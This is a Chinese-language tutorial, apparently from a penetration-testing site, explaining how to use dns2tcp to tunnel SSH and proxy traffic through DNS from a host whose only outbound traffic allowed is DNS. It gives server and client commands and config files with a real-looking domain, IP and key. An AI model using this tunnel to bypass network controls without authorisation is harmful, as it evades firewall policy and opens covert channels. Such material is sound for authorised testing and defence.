> dns2tcp 是一个利用DNS 隧道转发TCP 连接的工具，支持KEY 和TXT 类型的请求，用C 语言开发。它分为两个部分，服务端和客户端，服务端运行在linux服务器上，客户端可以运行在linux 和windows 上(其他平台没有测试过)，编译完成后在服务端上的可执行文件名称为dns2tcpd，在客户端(linux)上的名称为dns2tcpc，kali 默认安装了二者。下述为主要参数及解释，详情请参考手册。



c 能访问b 但c 只允许DNS 出网防火墙一般不会对53 端口进行封锁，允许开发53 端口所以所以可以走dns 隧道。

**dns2tcpd**

~~~
-F 强制在在台运行，默认在后台
-i IP address
监听ip，默认0.0.0.0
-f 配置文件
指定使用的配置文件路径
-d debug level
指定调试级别，输出相关级别日志，默认为1，2，3
dns2tcpc
-c : 启用压缩
-z <domain> : 指定所使用的域名
-d <1|2|3> : 调试级别(1, 2 or 3)
-r <resource> : 访问的目标资源
-f <filename> : 配置文件路径
-l <port|-> : 本地监听端口
-T <TXT|KEY> : DNS 请求类型，默认为TXT


~~~

配置文件
为了避免运行时指定太多的参数，可以通过指定配置文件来启动服务端。示例如下：

~~~
listen = 0.0.0.0
port = 53
user = nobody
chroot = /tmp
domain = <domain.com>
resources = ssh:127.0.0.1:22,socks:127.0.0.1:1082,http:127.0.0.1:3128
~~~

如果再某云购买vps 一定要把udp 53 端口的出站和入站都要开放

设置域名信息

登录vps B 安装dns2tcp
`sudo apt-get install dns2tcp`

~~~
修改配置文件
sudo vi /etc/dns2tcpd.conf
listen = 0.0.0.0
port = 53
# If you change this value, also change the USER variable in /etc/default/dns2tcpd
user = root
key = moonsec
chroot = /tmp
domain = dns2tcp.1377day.com
resources = ssh:127.0.0.1:22 , smtp:127.0.0.1:25
~~~

解释
允许任何访问
listen = 0.0.0.0
设置用户
user = root
设置密码
key = moonsec

在b 终端执行启动 `dns2tcpd -f /etc/dns2tcpd.conf -F -d 3`

如果出现错误可能端口被判断
查出端口的进行id 然后用kill 结束进程

netstat -anp|grep 53
kill 进程号
阿里云默认的服务关闭systemctl stop systemd-resolved



在c 下载客户端执行

`dns2tcpc -r ssh -k moonsec -z dns2tcp.1377day.com 8.210.55.154 -l 8888 -c -d 3`



在c 执行命令ssh root@127.0.0.1 -p 8888 也用xshell 代替登录
c 就能通过本地的8888 端口访问B 的22 端口

设置ssh 端口转发



再用proxifier 代理





不过访问数据很慢

